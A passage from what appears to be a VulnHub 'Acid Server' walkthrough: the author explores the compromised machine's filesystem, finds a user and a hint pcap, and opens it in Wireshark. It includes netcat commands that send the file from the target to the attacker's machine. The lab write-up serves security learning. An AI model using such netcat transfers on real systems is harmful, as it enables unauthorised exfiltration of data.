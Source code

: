 <hr>

### Finding saman Password

I started checking for files in the system. I found an unusual directory "**s.bin**" in the system root. It contains a file "**investigate.php**" whose content asks us to behave like an investigator to catch the culprit.

<center><img src="/assets/img/vulnhub/acid-server/asv14.png" alt="investigate.php"></center>
<br>
After going into the **/home** directory, I found a local user named "**saman**". This can be a useful user for us but we don't have a password to login into it. Let's try to find the password.

<center><img src="/assets/img/vulnhub/acid-server/asv15.png" alt="Saman"></center>
<br>
Further looking into the filesystem, I found a directory "**raw\_vs\_isi**" inside **/sbin** directory. It contains a **pcap** file "**hint.pcapng**".

I transfered this file to my own attacking machine with **netcat**:

> _**On the attacking machine:** _nc -lp 1234 \> pcap_ <br>
> _**On the target machine:** nc 192.168.225.139 1234 \< hint.pcapng_

After opening this file with Wireshark, I found a conversation in the TCP stream. Just **right-click** on any of these filtered packets and then click on the **Follow** option and then select **TCP stream**.

<center><img src="/assets/img/vulnhub/acid-server/asv16.png" alt="Wireshark"></center>
